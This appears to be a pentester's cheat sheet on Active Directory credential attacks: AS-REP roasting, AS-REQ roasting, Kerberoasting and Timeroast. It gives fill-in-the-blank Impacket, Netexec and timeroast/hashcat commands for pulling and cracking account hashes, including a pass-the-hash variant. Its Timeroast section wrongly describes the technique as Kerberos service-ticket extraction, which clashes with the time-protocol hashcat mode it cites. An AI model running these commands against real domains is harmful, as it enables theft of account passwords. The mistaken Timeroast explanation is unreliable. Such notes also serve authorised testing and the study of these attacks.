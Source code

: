# Asreproast

AS-REP Roasting (short technical definition):
An offline credential-extraction attack that targets accounts with Kerberos pre-authentication disabled. An attacker requests an AS‑REQ for such a user, receives an AS‑REP containing an encrypted authentication blob protected by the user’s key (derived from their password), extracts that blob and performs offline cracking (e.g. brute‑force or dictionary) to recover the user’s plaintext password or key.

Impacket -> `GetNPUsers.py <domain>/ -usersfile <file with usernames> -format hashcat -outputfile <outfile with hashes>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p '' --asreproast <outfile with hashes>`

<br>

# AsreQroast

Theoreticaly allows you to extract user hash from a .pcap file if contains an AS_REQ message (I didn't test it). More information can be found here:

https://www.thehacker.recipes/ad/movement/kerberos/asreqroast

https://github.com/lgandx/PCredz

<br>

# Kerberoast

An offline attack that targets Active Directory service accounts with a registered SPN. An attacker requests a service ticket (TGS) for the SPN, extracts the ticket’s encrypted service-ticket blob (encrypted with the service account’s key derived from its password), and performs offline cracking against that blob to recover the account’s plaintext password or key.

Impacket -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:<password>' -outputfile <outfile with hashes>`

Impacket pass-the-hash -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:' -outputfile <outfile with hashes> -hashes :<nthash>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p <password/ -H hash> --kerberoasting <outfile with hashes>`

<br>

# Timeroast

Timeroast is an Active Directory attack technique that targets Kerberos authentication by extracting service tickets (TGS) for accounts with Service Principal Names (SPNs). Normally machine accounts. These tickets are encrypted with the service account’s NT hash, which the attacker can capture and crack offline using brute force or dictionary attacks. The goal is to recover the service account’s password, which often has high privileges and rarely changes.

Example:

`python3 timeroast.py <dc_ip> > hashs ; hashcat -m 31300 -a 0 hashs rockyou.txt --username`

https://github.com/SecuraBV/Timeroast/tree/main
